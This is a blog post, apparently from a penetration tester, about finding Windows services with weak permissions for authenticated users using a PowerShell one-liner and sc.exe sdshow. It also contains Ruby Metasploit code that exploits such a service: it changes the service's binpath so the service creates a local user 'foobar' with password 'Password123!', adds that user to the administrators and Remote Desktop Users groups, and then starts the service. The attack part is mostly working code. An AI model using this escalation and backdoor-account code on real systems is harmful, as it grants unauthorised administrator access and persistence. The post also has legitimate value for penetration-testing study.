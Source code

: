 ```yaml
---
title: "Identify Weak Service Configuration With One Liner of Powershell"
date: 2021-12-03T09:48:14Z
categories: ["Programming", "Security"]
tags: ["Powershell", "Ruby",  "Metasploit", "Privilege Escalation"]
---
```


One of the features of PEN300 MSF script is lazy privilege escalation, it checks for few common excessive permissions and lack of configuration in certain component of the box.  
The missing part was how to identify weak service configuration? the approach was already known, however how to achieve it using MSF Ruby API or Win32 API seemed doomed. 
MSF Windows Services class relies on sc_manager, this won't work with low privileged user. I have also tried to call the API using railgun and change paramter flags to query only the configuration but seemed to not work either. I didn't dig deeper, I might have missed something.  
The last option remaining is the use sdshow parameter of sc.exe  and grab the output then parse it. The first idea that I had is to use ruby API to walk through all the services in the box and construct an array for each SDDL and then parse it to look for the weak configuration. This approach is doable but not practical because it takes so much time to complete around 20-30 minutes and that's due how channels work in MSF, in short running a command line for each service from ruby API is not good idea in this case.
After doing some thinking, I remembered that PrivsChecks does a loads of checks in much short of time so I decided to use Powershell for the heavy lifting.  

```POWERSHELL
 get-service | foreach($_) { 
 $n = $_.Name;
 $o = sc.exe sdshow $n; $m ="$o" -match 'A;;([A-Z]+);;;AU';
 if($m -eq $True){ 
 	$d = $Matches[1];
	if($d.contains('DC') -and $d.contains('RP')){"$n"} 
	} 
}
```

The one liner is quite simple, walk through all the services, capture sdshow output into a variable, then filter the output using this regex `A;;([A-Z]+);;;AU` which, means gets allow SD that `allow (A) authenticated user (AU) to do actions on this servicer ([A-Z]+)`.   
From there we check for `DC` which, means change service config and we also we check for `RP` permissions, which means start the service. We look for only this two permissions because with these ones we can exploit the service.  

![lab_test](/images/WeakServicePowershellOneLiner/lab.png)

The implementation with MSF script is quite simple now, we just need to invoke our Powershell class help that we created last time and execute the script, however, there is a tiny caveat here, we are expecting only on returned value but in some environment we could have more but what are the odds? for now just keep it that way.  

```ruby
def start_windows_services_privscheck
	print_status("\tChecking for weak configuration services")
	begin
		# Currently check only for weak configuration (RP and DC).
		# PrivescCheck will conver full test in paralel.
		service = $powershell.execute_command("get-service | foreach($_) { $n = $_.Name; $o = sc.exe sdshow $n; $m =\"$o\" -match 'A;;([A-Z]+);;;AU'; if($m -eq $True){ $d = $Matches[1]; if($d.contains('DC') -and $d.contains('RP')){\"$n\"} } }")
		service.strip!
		return unless !service.empty? || !service.nil?
		do_exploit_weak_conf_service(service)
	rescue Exception => e
		print_error("Lazy Windows Service Exploitation error: #{e}")
	end
end
```

The function do_exploit_weak_conf_service() simply creates a new local admin user part of remote desktop top users for insurance. 

```ruby
def do_exploit_weak_conf_service(service_name)
	commands = [
	'net user foobar Password123! /add',
	'net localgroup administrators foobar /add',
	'net localgroup \"Remote Desktop Users\" foobar /add'
	]
	path = 'C:\\Windows\\System32\\cmd.exe'
	arg = "/c sc config #{service_name} binpath= \"#{commands[0]}\""
	arg1 = "/c sc config #{service_name} start= demand"
	arg2 = "/c sc config #{service_name} obj= \".\\LocalSystem\" password= \"\""
	arg3 = "/c sc start #{service_name}"
	cmd_output = cmd_exec(path, arg)
	if cmd_output.include? 'SUCCESS'
		print_good("\t\t[#{service_name}] can be configured by current user")
		# Setting start to demand.
		# Since changing binpath was a success
		# No need to check for start= demand return value
		cmd_exec(path, arg1)
		# Same goes for obj and passwords parameters.
		cmd_exec(path, arg2)
		# Create user
		cmd_exec(path, arg)
		# Starting the service
		cmd_output = cmd_exec(path, arg3)
		if cmd_output.include? 'not respond to the start'
			print_good("\t\t[#{service_name}] New local user is created foobar:Password123!")
			1.upto(2) do |i|
				arg = "/c sc config #{service_name} binpath= \"#{commands[i]}\""
				cmd_exec(path, arg)
				cmd_exec(path, arg3)
			end
			print_good("\t\t[#{service_name}] Hacker has been added to local administrators and remote desktop users!")
		end
	end
end
```

That's it folks! a quick and dirty hack to identify an excessive permissions on a Windows service!

References:
- https://www.rubydoc.info/github/rapid7/metasploit-framework/Msf/Post/Windows/Services
- https://rubyfu.net/module-0x5-or-exploitation-kung-fu/metasploit/meterpreter/railgun-api-extension
- https://tahadraidia.com/posts/write-a-class-helper-for-metasploit-powershell-extension/
- https://tahadraidia.com/posts/build-an-atomic-windows-lab/
- https://www.winhelponline.com/blog/view-edit-service-permissions-windows/